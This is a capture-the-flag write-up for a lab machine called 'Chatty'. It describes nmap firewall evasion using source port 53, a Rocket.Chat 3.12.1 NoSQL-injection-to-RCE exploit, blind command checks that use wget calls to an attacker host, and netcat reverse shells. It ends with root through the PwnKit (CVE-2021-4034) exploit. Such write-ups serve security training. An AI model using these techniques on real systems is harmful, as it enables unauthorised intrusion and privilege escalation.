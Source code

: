 # Chatty
### Enumeration
There appears to be a firewall blocking incoming requests, as a standard `nmap` scan is showing that all ports are closed.

My next move was to scan UDP ports, but nothing immediately showed up as open, so whilst I left this scanning, I tried doing another TCP `SYN` scan but specified the source port as `53`, to trick the firewall into thinking the requests are DNS requests, in the hopes that it will permit such requests to pass through the firewall. This works!

```
# Nmap 7.92 scan initiated Sun Apr  3 17:05:50 2022 as: nmap -v -p- -sC -sV -sS -g 53 -oN tcp.out 192.168.51.164
Nmap scan report for 192.168.51.164
Host is up (0.0035s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1:99:4b:95:22:25:ed:0f:85:20:d3:63:b4:48:bb:cf (RSA)
|   256 0f:44:8b:ad:ad:95:b8:22:6a:f0:36:ac:19:d0:0e:f3 (ECDSA)
|_  256 32:e1:2a:6c:cc:7c:e6:3e:23:f4:80:8d:33:ce:9b:3a (ED25519)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 200 OK
|     X-XSS-Protection: 1
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: sameorigin
|     X-Instance-ID: m46MgKskNShhnKSiN
|     Content-Type: text/html; charset=utf-8
|     Vary: Accept-Encoding
|     Date: Sun, 03 Apr 2022 21:06:03 GMT
|     Connection: close
...
```

##### 3000
A rocket.chat server. We register a user with the email `test@example.com`. Now if we visit `http://192.168.51.164:300/api/info`, we see that the version is `3.12.1`. Checking `searchsploit`, we find an unauthenticated NoSQL injection to RCE vulnerability for version 3.12.1! We need a low priv user's email, and the admin user's email, which we can find in `http://192.168.51.164:3000/channel/general` and is `admin@chatty.offsec`.

We modify the script to forego resetting the low priv user's password - since we created the account ourselves, we can just set the password to what the exploit expects manually (which is `P@$$w0rd!1234`).

When we run the script, we get a prompt `CMD:>`. I tried `id`, but got simply `{"success": false}` returned.

### Foothold

Digging into the script a bit more, the exploit takes advantage of RocketChat integrations, which allow creation of incoming and outgoing webhooks. These webhooks can have associated scripts which will be executed when the webhook is triggered.

So I tried typing `ping -c 2 192.168.51.200` into the prompt, making sure to start listening for ICMP requests with `tcpdump` first, and I saw 2 pings. So we have a blind RCE.

I used the old `wget http://192.168.51.200/$(which <CMD>)`, replacing `<CMD>` with both `nc` and `bash` to check for those two programs. Both were there, but neither `bash -i >& ...` nor `nc -e /bin/bash ...` reverse shells worked, so I used the netcat OpenBSD reverse shell on port 3000, in case of the firewall blocking anything.

We can immediately grab the user flag. The output of `env` contains the following interesting lines:

```sh
ADMIN_PASS=VeryStrongPassword2069
```

This doesn't appear to be the `rocketchat` or `root` users' password.

### Privilege Escalation
Linpeas flags sudo as vulnerable to [CVE-2021-4034](https://github.com/berdav/CVE-2021-4034). I git cloned the repository into `/dev/shm`, ran `make` and executed the exploit to get a root shell.
